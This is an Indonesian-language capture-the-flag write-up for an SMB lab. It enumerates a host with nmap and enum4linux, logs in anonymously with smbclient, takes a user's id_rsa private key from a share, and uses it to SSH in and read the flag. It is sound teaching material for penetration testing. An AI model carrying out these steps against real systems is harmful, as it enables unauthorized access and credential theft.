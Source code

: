 # Enumerating SMB
lakukan nmap scanning
```shell
sudo nmap <IP> -sV -sS
```
hasil:
```shell
...
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: POLOSMB; OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

selanjutnya lakukan enumeration dengan `enum4linux`. dan karena dari soal ditanyakan adalah nama **workgroup** maka kita gunakan tag G (`-G`)
```shell
enum4linux 10.10.142.140 -G
```
hasil
```shell
...
 ===========================( Enumerating Workgroup/Domain on 10.10.142.140 )===========================


[+] Got domain/workgroup name: WORKGROUP
...
...
 ==================================( OS information on 10.10.142.140 )==================================


[E] Can't get OS info with smbclient


[+] Got OS info for 10.10.142.140 from srvinfo: 
	POLOSMB        Wk Sv PrQ Unx NT SNT polosmb server (Samba, Ubuntu)
	platform_id     :	500
	os version      :	6.1
	server type     :	0x809a03
...
...
 =================================( Share Enumeration on 10.10.142.140 )=================================


	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      Network Logon Service
	profiles        Disk      Users profiles
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (polosmb server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            POLOSMB
...
```

# Exploiting SMB
selanjutnya kita dapat exploiting SMB service yang ada. Kita dapat mencoba login dengan username "Anonymous" tanpa provide password apapun.
```shell
smbclient //10.10.142.140/profiles -U Anonymous --password='' -p 139
```
selanjutnya setelah terhubung, kita dapat lakukan `?` untuk mengetahui command apa saja yang dapat kita gunakan, selain itu kita dapat eksplor apa saja yang ada di direktori saat ini.

Pertanyaan pertama adalah, siapa kira-kira pemilik SMB share ini? untuk menjawab hal ini, kita dapat melihat isi konten dari file "Working From Home Information.txt" dengan menggunakan command `more "Working From Home Information.txt`.
isi dari file tersebut dapat menjawab pertanyaan tentang siapa pemilik SMB share ini yaitu `John Cactus` dan service apa yang dikonfigurasi untuk dia agar dapat WFH yaitu `ssh`.

setelah itu, karena kita tahu service yang dikonfigurasi adalah ssh, kita dapat pindah ke folder `.ssh` di SMB dengan `cd .ssh`. file yang paling kita perlukan pastinya adalah `id_rsa`, hal ini karena `id_rsa` merupakan private key, yang mana untuk dapat mengakses ssh dengan user terkait yaitu `John cactus` kita perlu menggunakan private key. nah karena kita memerlukan private key tersebut, kita dapat men-downloadnya dengan menggunakan command `mget` atau `get`, dengan cara `mget id_rsa`
 atau `get id_rsa`. Jika sudah terdownload, maka kita dapat keluar dari SMB dengan command `exit`.

terakhir, kita perlu login ke ssh menggunakan username dan ssh key (id_rsa yang baru didapat). namun disini kita belum tahu pasti apa nama usernamenya, meskipun kita tahu nama usernya adalah `John cactus`. Kita dapat sedikit kembali ke hasil enumerating menggunakan `enum4linux`, pada section
```shell
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cactus (Local User)
...
```
dalam hasil enumerate tersebut, didapat nama user `cactus` yang mana bisa jadi merupakan username dari SMB. kita dapat mencoba untuk login menggunakan username ini ke ssh dengan cara menggunakan tag i (`-i`) untuk provide ssh key, dan tag -p (`-p`) untuk provide port nya (port ssh ada di hasil nmap scanning).
```shell
ssh -i id_rsa cactus@<IP> -p 22
```
ternyata berhasil untuk login ke ssh menggunakan user `cactus`! selanjutnya kita dapat melihat isi dari direktori dengan `ls`, dan hasilnya terdapat file `smb.txt` yang dapat kita lihat isinya dengan `cat smb.txt`, dan hasilnya adalah flag terakhir yang perlu di submit untuk SMB.